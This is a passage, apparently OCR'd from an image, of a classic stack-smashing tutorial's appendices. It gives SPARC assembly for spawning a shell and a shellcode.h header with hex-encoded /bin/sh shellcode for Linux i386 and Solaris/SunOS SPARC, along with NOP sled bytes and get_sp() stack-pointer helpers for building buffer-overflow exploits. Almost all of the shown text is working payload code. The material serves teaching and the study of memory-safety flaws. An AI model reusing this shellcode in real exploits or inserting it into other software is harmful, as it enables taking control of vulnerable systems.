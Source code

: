 >SPARC/SunOS

		sethi   0xbd89a, %l6
        or      %l6, 0x16e, %l6
        sethi   0xbdcda, %l7
        and     %sp, %sp, %o0
        add     %sp, 8, %o1
        xor     %o2, %o2, %o2
        add     %sp, 16, %sp
        std     %l6, [%sp - 16]
        st      %sp, [%sp - 8]
        st      %g0, [%sp - 4]
        mov     0x3b, %g1
		mov	-0x1, %l5
        ta      %l5 + 1
        xor     %o7, %o7, %o0
        mov     1, %g1
        ta      %l5 + 1
        
---

>Appendix B - Generic Buffer Overflow Program
        
*shellcode.h*
	
    #if defined(__i386__) && defined(__linux__)

	#define NOP_SIZE	1
	char nop[] = "\x90";
	char shellcode[] =
	  "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b"
	  "\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd"
	  "\x80\xe8\xdc\xff\xff\xff/bin/sh";

	unsigned long get_sp(void) {
	   __asm__("movl %esp,%eax");
	}

	#elif defined(__sparc__) && defined(__sun__) && defined(__svr4__)

	#define NOP_SIZE	4
	char nop[]="\xac\x15\xa1\x6e";
	char shellcode[] =
	  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
	  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
	  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\x91\xd0\x20\x08"
	  "\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd0\x20\x08";

	unsigned long get_sp(void) {
	  __asm__("or %sp, %sp, %i0");
	}

	#elif defined(__sparc__) && defined(__sun__)

	#define NOP_SIZE        4
	char nop[]="\xac\x15\xa1\x6e";
	char shellcode[] =
	  "\x2d\x0b\xd8\x9a\xac\x15\xa1\x6e\x2f\x0b\xdc\xda\x90\x0b\x80\x0e"
	  "\x92\x03\xa0\x08\x94\x1a\x80\x0a\x9c\x03\xa0\x10\xec\x3b\xbf\xf0"
	  "\xdc\x23\xbf\xf8\xc0\x23\xbf\xfc\x82\x10\x20\x3b\xaa\x10\x3f\xff"
	  "\x91\xd5\x60\x01\x90\x1b\xc0\x0f\x82\x10\x20\x01\x91\xd5\x60\x01";
